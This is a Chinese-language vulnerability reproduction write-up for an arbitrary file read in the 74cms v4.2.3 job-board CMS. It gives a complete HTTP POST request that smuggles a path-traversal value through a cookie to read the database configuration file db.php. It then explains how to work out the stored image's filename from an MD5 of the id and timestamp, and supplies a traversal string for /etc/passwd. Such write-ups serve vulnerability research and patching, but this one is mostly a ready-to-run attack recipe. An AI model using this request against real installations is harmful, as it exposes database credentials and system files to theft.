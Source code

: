 # 74cms v4.2.3任意文件读取

## 一、漏洞简介

## 二、漏洞影响

74cms v4.2.3

## 三、复现过程

先尝试读取 db.php，向服务器post如下数据

```bash
POST /index.php?m=&c=members&a=register HTTP/1.1
Host: www.baidu.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.120 Safari/537.36 
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Cookie: members_bind_info[temp_avatar]=../../../../Application/Common/Conf/db.php; members_bind_info[type]=qq; members_uc_info[password]=xcxmiku; members_uc_info[uid]=123456; members_uc_info[username]=xcxmiku
Content-Type: application/x-www-form-urlencoded

ajax=1&reg_type=2&utype=2&org=bind&ucenter=bind

```

会返回如下数据

![1.png](images/2020_05-22/4cb7e34dec67474fa98b8136abc8f5fd.png)

在/data/upload/avatar/年月/日文件夹下 会生成一张图片

![2.png](images/2020_05-22/66b890b0034c4628bafb072fad50e947.png)

这张图片的名称由id和时间戳的md5值构成，我们可以将Burp Suite上返回的时间转换为时间戳

![3.png](images/2020_05-22/930140fbfa7848a5933bf4d0cfe90585.png)

不过这个时间可能会有误差，如果不行就把时间+-10

我post的id为654321，获取的时间戳为1571659588，将他们连在一起进行md5加密

![4.png](images/2020_05-22/285ab911013f44ee8d7e1b0499a7e696.png)

成功获取图片名，然后访问

```bash
https://www.baidu.com/data/upload/avatar/1910/21/9aaa3653bf6ec9491bc002b52521962c.jpg 

```

保存该图片用文本打开就是 db.php 的内容。

###### PS:

使用post提交，参数如下

![5.png](images/2020_05-22/181f024db95a4aa28ae64fb89960bb8b.png)

在Header可获取到时间戳

![6.png](images/2020_05-22/ce5f646d6fd5478398d3107233e6cd36.png)

### 可能会遇到的问题

###### post数据返回unicode编码

因为名称，密码，ID等内容格式不对或重复会出现这种情况，将unicode编码进行解码，按提示修改即可。

###### 读取其他文件


```
../../../../Application/Common/Conf/db.php
```

是读取db.php，如果想读取根目录可以构造


```
../../../../../../../../etc/passwd
```

###### 时间戳问题

服务器返回的时间，服务器返回的是GMT格林威治标准时间，没有加上时区，只记录分秒即可

